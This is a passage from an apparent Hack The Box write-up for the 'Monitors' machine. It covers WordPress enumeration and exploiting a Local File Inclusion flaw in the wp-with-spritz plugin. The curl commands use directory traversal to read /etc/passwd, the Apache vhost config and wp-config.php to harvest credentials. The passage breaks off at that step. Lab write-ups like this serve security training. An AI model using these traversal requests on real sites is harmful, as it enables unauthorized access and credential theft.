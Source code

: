 
<img width="551" height="206" alt="image" src="https://github.com/user-attachments/assets/30ac2f55-4b53-43b7-a191-3b6ba3c94ca3" />

Visiting `http://monitors.htb` reveals a WordPress installation.

<img width="963" height="779" alt="image" src="https://github.com/user-attachments/assets/c26f7cad-77c8-434a-93fc-2d08ad4a2e9d" />

### WordPress Enumeration

```bash
wpscan --url http://monitors.htb -e ap
```

<img width="851" height="427" alt="image" src="https://github.com/user-attachments/assets/d358d603-7f94-4b00-b9f9-7f18f04937cd" />

**Critical Finding:** The `wp-with-spritz` plugin is installed and vulnerable to Local File Inclusion (LFI).

## Initial Access

### LFI Exploitation

The vulnerable endpoint allows directory traversal:

```bash
# Reading /etc/passwd to confirm LFI
curl "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd" | grep sh$
```

<img width="970" height="170" alt="image" src="https://github.com/user-attachments/assets/f180c108-41d6-472e-a797-85ec96eead7b" />


**Key Discovery:** Two users with shell access: `root` and `marcus`.

### Virtual Host Discovery

```bash
# Reading Apache configuration
curl "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-enabled/000-default.conf"
```

<img width="964" height="754" alt="image" src="https://github.com/user-attachments/assets/868a2467-3aef-4b1e-aa36-1aefb70e4c14" />

**Discovery:** Additional virtual host `cacti-admin.monitors.htb`

```bash
echo "10.129.232.111 cacti-admin.monitors.htb" >> /etc/hosts
```

### Credential Harvesting

```bash
# Reading WordPress configuration
curl "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../../var/www/wordpress/wp-config.php"
```
